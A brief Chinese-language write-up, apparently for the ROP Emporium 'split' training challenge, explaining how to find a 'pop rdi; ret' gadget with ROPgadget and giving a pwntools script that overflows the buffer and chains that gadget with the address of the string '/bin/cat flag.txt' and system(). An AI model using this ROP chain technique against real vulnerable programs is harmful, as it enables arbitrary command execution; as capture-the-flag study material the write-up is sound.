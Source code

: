 # split

用ROPgadget找到把放置在栈上的system函数的第一个参数弹出到rdi的汇编代码，传参顺序是rdi, rsi, rdx, rcx...

```python
import pwn
  
pwn.context(arch='amd64', os='linux', log_level='debug')

p = pwn.process('./split')
e = pwn.ELF('./split')

system_addr = pwn.p64(e.sym['system'])
sh_addr = pwn.p64(next(e.search(b'/bin/cat flag.txt')))

payload = b'A' * 0x20 + b'B' * 8 + pwn.p64(0x4007c3) + sh_addr + system_addr    # 0x4007c3 = ROPgadget --binary ./split | grep "pop rdi"
#                                     pop rdi; ret
p.sendlineafter(b'> ', payload)

p.recv()
p.recv()
```